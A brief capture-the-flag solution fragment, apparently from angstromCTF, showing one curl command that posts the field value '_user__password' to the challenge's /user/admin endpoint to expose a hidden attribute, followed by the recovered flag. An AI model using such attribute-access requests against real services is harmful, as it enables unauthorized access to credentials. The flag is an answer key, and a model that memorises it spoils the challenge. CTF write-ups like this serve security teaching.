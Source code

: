     

    # curl http://web2.angstromctf.com:8899/user/admin --data "field=_user__password"
    actf{2_und3rsc0res_h1des_n0th1ng}
